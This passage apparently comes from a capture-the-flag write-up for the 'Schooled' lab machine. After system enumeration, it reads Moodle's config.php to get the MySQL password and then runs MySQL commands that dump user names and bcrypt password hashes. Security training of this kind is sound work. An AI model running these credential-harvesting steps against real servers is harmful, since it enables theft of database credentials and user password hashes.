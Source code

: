 Enumerated system information:

```bash
[+] Operative system
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#kernel-exploits
FreeBSD Schooled 13.0-BETA3 FreeBSD 13.0-BETA3 #0 releng/13.0-n244525-150b4388d3b: Fri Feb 19 04:04:34 UTC 2021     root@releng1.nyi.freebsd.org:/usr/obj/usr/src/amd64.amd64/sys/GENERIC  amd64
```

Extracted MySQL credentials from moodle's config file:

```php
$ cat config.php
<?php  // Moodle configuration file

unset($CFG);
global $CFG;
$CFG = new stdClass();

$CFG->dbtype    = 'mysqli';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'moodle';
$CFG->dbpass    = 'PlaybookMaster2020';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (
  'dbpersist' => 0,
  'dbport' => 3306,
  'dbsocket' => '',
  'dbcollation' => 'utf8_unicode_ci',
);

$CFG->wwwroot   = 'http://moodle.schooled.htb/moodle';
$CFG->dataroot  = '/usr/local/www/apache24/moodledata';
$CFG->admin     = 'admin';

$CFG->directorypermissions = 0777;

require_once(__DIR__ . '/lib/setup.php');

// There is no php closing tag in this file,
// it is intentional because it prevents trailing whitespace problems!
```

>[!important]
>moodle     PlaybookMaster2020

MySQL enumeration:

```bash
$ /usr/local/bin/mysql -u moodle --password='PlaybookMaster2020' -D moodle -e 'show tables;'
...
mdl_user
...
$ /usr/local/bin/mysql -u moodle --password='PlaybookMaster2020' -D moodle -e 'select username,password from mdl_user;'
mysql: [Warning] Using a password on the command line interface can be insecure.
username        password
guest   $2y$10$u8DkSWjhZnQhBk1a0g1ug.x79uhkx/sa7euU8TI4FX4TCaXK6uQk2
admin   $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW
bell_oliver89   $2y$10$N0feGGafBvl.g6LNBKXPVOpkvs8y/axSPyXb46HiFP3C9c42dhvgK
orchid_sheila89 $2y$10$YMsy0e4x4vKq7HxMsDk.OehnmAcc8tFa0lzj5b1Zc8IhqZx03aryC
chard_ellzabeth89       $2y$10$D0Hu9XehYbTxNsf/uZrxXeRp/6pmT1/6A.Q2CZhbR26lCPtf68wUC
morris_jake89   $2y$10$UieCKjut2IMiglWqRCkSzerF.8AnR8NtOLFmDUcQa90lair7LndRy
heel_james89    $2y$10$sjk.jJKsfnLG4r5rYytMge4sJWj4ZY8xeWRIrepPJ8oWlynRc9Eim
nash_michael89  $2y$10$yShrS/zCD1Uoy0JMZPCDB.saWGsPUrPyQZ4eAS50jGZUp8zsqF8tu
```
